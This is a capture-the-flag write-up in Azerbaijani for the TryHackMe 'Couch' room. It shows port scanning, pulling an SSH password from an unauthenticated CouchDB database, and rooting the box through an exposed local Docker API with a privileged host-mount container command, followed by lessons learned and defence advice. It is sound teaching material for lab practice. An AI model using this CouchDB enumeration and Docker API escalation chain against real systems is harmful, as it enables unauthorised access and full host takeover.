

# TryHackMe Couch Writeup

Bu writeup TryHackMe-dəki `Couch` otağı üçündür. Məqsəd açıq servisləri tapmaq, CouchDB üzərindən credential əldə etmək, SSH ilə user səviyyəsində giriş almaq və daha sonra local Docker API zəifliyindən istifadə edərək root səviyyəsinə qalxmaqdır.

> Qeyd: Bu addımlar yalnız TryHackMe kimi icazəli lab mühitləri üçündür.

## Lab Məlumatları

| Sahə | Dəyər |
|---|---|
| Platforma | TryHackMe |
| Otaq | Couch |
| Çətinlik | Easy |
| Target IP | `10.82.136.19` |
| Əsas mövzu | CouchDB, SSH, Docker API |

## 1. Port Skan

Əvvəl maşında hansı portların açıq olduğunu yoxlayırıq:

```bash
nmap -sC -sV -p- 10.82.136.19
```

Nəticədə 2 əsas port görünür:

```text
22/tcp    open  ssh
5984/tcp  open  http    CouchDB/1.6.1
```

Buradan başa düşürük:

| Port | Servis | Məna |
|---:|---|---|
| `22` | SSH | Serverə uzaqdan terminal ilə giriş üçün |
| `5984` | CouchDB | JSON əsaslı database sistemi |

TryHackMe sualları üçün cavablar:

```text
Açıq port sayı: 2
Database sistemi: couchdb
Port: 5984
Versiya: 1.6.1
```

## 2. CouchDB-ni Yoxlamaq

CouchDB portunu brauzerdə açırıq:

```text
http://10.82.136.19:5984
```

Terminal ilə də yoxlamaq olar:

```bash
curl http://10.82.136.19:5984
```

Burada CouchDB haqqında JSON cavab gəlir. Bu cavab versiyanı və servisin işlədiyini təsdiqləyir.

## 3. Web İdarəetmə Paneli

CouchDB-nin köhnə web idarəetmə paneli `Futon` adlanır. Onun yolu:

```text
/_utils/
```

Brauzerdə belə açılır:

```text
http://10.82.136.19:5984/_utils/
```

TryHackMe cavabı:

```text
_utils
```

## 4. Database Siyahısını Görmək

CouchDB-də bütün database-ləri görmək üçün bu endpoint istifadə olunur:

```text
/_all_dbs
```

Brauzerdə:

```text
http://10.82.136.19:5984/_all_dbs
```

Terminalda:

```bash
curl http://10.82.136.19:5984/_all_dbs
```

Nəticədə belə database-lər görünə bilər:

```text
_replicator
_users
couch
secret
test_suite_db
test_suite_db2
```

TryHackMe cavabı:

```text
_all_dbs
```

## 5. Credential Tapmaq

`secret` adlı database maraqlı görünür. Onun içindəki sənədləri siyahılamaq üçün:

```bash
curl http://10.82.136.19:5984/secret/_all_docs
```

Buradan document ID tapılır. Sonra həmin document açılır:

```bash
curl http://10.82.136.19:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
```

Futon panelində də bunu belə görmək olar:

```text
_utils → secret → document ID
```

Document içində `passwordbackup` field-i tapılır. Bu field SSH üçün istifadə ediləcək credential verir.

Format belədir:

```text
username:password
```

Sənin labında görünən username:

```text
atena
```

TryHackMe sualında credential soruşulursa, `passwordbackup` field-indəki dəyər olduğu kimi yazılır.

## 6. SSH ilə Giriş

Credential tapıldıqdan sonra SSH ilə target maşına daxil oluruq:

```bash
ssh atena@10.82.136.19
```

Parol soruşanda CouchDB-də tapılan parol yazılır. Linux-da parol yazanda ekranda görünmür, bu normaldır.

Girişdən sonra kim olduğumuzu yoxlayırıq:

```bash
whoami
id
```

Əgər nəticə `atena` göstərirsə, user səviyyəsində giriş uğurludur.

## 7. user.txt Oxumaq

Home qovluğunu yoxlayırıq:

```bash
ls
```

Sonra user flag oxunur:

```bash
cat user.txt
```

Əgər `user.txt` həmin qovluqda yoxdursa:

```bash
find /home -name user.txt 2>/dev/null
```

Tapılan yolu oxuyuruq:

```bash
cat /home/atena/user.txt
```

Cavab formatı adətən belə olur:

```text
THM{...}
```

## 8. Privilege Escalation Üçün Enumeration

Root olmaq üçün əvvəl maşının içində hansı servislərin local olaraq işlədiyini yoxlayırıq:

```bash
netstat -lntu
```

Bu komanda dinləmədə olan TCP və UDP portları göstərir.

Sənin nəticəndə maraqlı hissə:

```text
127.0.0.1:2375 LISTEN
```

Bu Docker API portudur. `127.0.0.1` olduğu üçün kənardan görünmür, amma SSH ilə maşının içində olduğumuz üçün ona localdan çata bilirik.

Komandanın mənası:

| Hissə | İzah |
|---|---|
| `netstat` | Network portlarını göstərir |
| `-l` | Yalnız dinləmədə olan portlar |
| `-n` | Rəqəmlə göstərir |
| `-t` | TCP portları |
| `-u` | UDP portları |

## 9. Docker API-ni Yoxlamaq

Əvvəl Docker API işləyirmi yoxlayırıq:

```bash
curl http://127.0.0.1:2375/version
```

Əgər Docker haqqında JSON məlumat gəlirsə, API açıqdır.

Sonra mövcud Docker image-lərinə baxırıq:

```bash
docker -H tcp://127.0.0.1:2375 images
```

Əgər `alpine` image-i varsa, onu istifadə etmək olar. Yoxdursa, çıxışda hansı image adı görünürsə, onu yazmaq lazımdır.

## 10. Root Səviyyəsinə Keçmək

Docker API root səlahiyyəti ilə işlədiyi üçün host filesystem-i container-ə mount edərək root səviyyəsinə keçmək olur:

```bash
docker -H tcp://127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/bash
```

Bu komandanın qısa izahı:

| Hissə | Məna |
|---|---|
| `docker -H tcp://127.0.0.1:2375` | Local Docker API-yə qoşulur |
| `run --rm -it` | İnteraktiv container başladır |
| `--privileged` | Container-ə yüksək səlahiyyət verir |
| `--net=host` | Host network-dən istifadə edir |
| `-v /:/mnt` | Host-un `/` filesystem-ini container-də `/mnt` kimi qoşur |
| `alpine` | İstifadə olunan Docker image |
| `chroot /mnt /bin/bash` | Host filesystem-inə root mühit kimi keçir |

Root olub-olmadığımızı yoxlayırıq:

```bash
whoami
id
```

Əgər `whoami` nəticəsi belədirsə:

```text
root
```

deməli privilege escalation uğurludur.

## 11. root.txt Oxumaq

Root olduqdan sonra root flag oxunur:

```bash
cat /root/root.txt
```

Cavab formatı:

```text
THM{...}
```

## 12. Hücum Zənciri

Bu labda ümumi zəncir belədir:



## 13. Öyrənilən Dərslər

Bu labdan çıxan əsas dərslər:

| Dərs | İzah |
|---|---|
| Açıq database təhlükəlidir | CouchDB paneli authentication olmadan açıq idi |
| Gizli database-lər yoxlanmalıdır | `secret` database credential saxlayırdı |
| SSH credential reuse risklidir | Database-də tapılan parol SSH üçün işləyirdi |
| Local portlar da vacibdir | `127.0.0.1:2375` kənardan görünməsə də, içəridən təhlükəli idi |
| Docker API qorunmalıdır | Parolsuz Docker API root compromise yarada bilər |

## 14. Müdafiə Tövsiyələri

Real sistemlərdə belə zəifliklərin qarşısını almaq üçün:

- CouchDB admin paneli public açıq olmamalıdır.
- CouchDB üçün authentication aktiv edilməlidir.
- Həssas məlumatlar database-də açıq formada saxlanmamalıdır.
- SSH parolları database backup və ya config içində saxlanmamalıdır.
- Docker API `2375` portunda TLS/auth olmadan açıq qalmamalıdır.
- Docker socket/API yalnız güvənilən adminlərə verilməlidir.
- Local portlar da audit olunmalıdır.

## 15. Qısa Komanda Siyahısı

```bash
nmap -sC -sV -p- 10.82.136.19
curl http://10.82.136.19:5984
curl http://10.82.136.19:5984/_all_dbs
curl http://10.82.136.19:5984/secret/_all_docs
curl http://10.82.136.19:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
ssh atena@10.82.136.19
cat user.txt
netstat -lntu
curl http://127.0.0.1:2375/version
docker -H tcp://127.0.0.1:2375 images
docker -H tcp://127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/bash
whoami
cat /root/root.txt
```

## Nəticə

`Couch` labı göstərir ki, zəif qorunan database idarəetmə paneli real sistemdə ciddi risk yarada bilər. Burada əvvəl CouchDB-dən credential tapıldı, sonra SSH ilə user səviyyəsində giriş əldə olundu və sonda parolsuz local Docker API vasitəsilə root səviyyəsinə qalxıldı.

